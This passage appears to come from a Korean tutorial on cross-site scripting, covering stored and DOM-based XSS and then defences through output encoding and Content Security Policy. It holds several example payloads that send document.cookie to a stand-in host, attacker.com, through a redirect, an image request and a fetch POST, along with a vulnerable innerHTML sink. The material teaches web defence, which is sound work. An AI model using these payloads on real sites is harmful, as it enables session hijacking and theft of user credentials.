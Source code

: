 #### 2) Stored XSS (저장형)
**악성 스크립트가 서버에 저장되어 다른 사용자가 접근할 때 실행**되는 방식
```html
<!-- 게시판 댓글에 스크립트 저장 -->
댓글: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

#### 3) DOM-based XSS
**클라이언트 측 JavaScript에서 DOM 조작 시 발생**하는 XSS
```javascript
// 취약한 코드
document.getElementById('result').innerHTML = location.hash.substring(1);

// 공격 URL  
http://site.com/page.html#<script>alert('XSS')</script>
```

### 공격 예시

#### 쿠키 탈취
```javascript
<script>
var img = new Image();
img.src = "http://attacker.com/steal.php?cookie=" + document.cookie;
</script>
```

#### 세션 하이재킹
```javascript
<script>
fetch('http://attacker.com/steal', {
  method: 'POST',
  body: 'sessionId=' + document.cookie
});
</script>
```

### 방어 기법

#### 1) 입력 검증 및 출력 인코딩
```html
<!-- 위험 -->
<p><?= $user_input ?></p>

<!-- 안전 -->
<p><?= htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8') ?></p>
```

#### 2) CSP (Content Security Policy)
```html
<!-- HTTP 헤더나 메타 태그로 설정 -->
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```
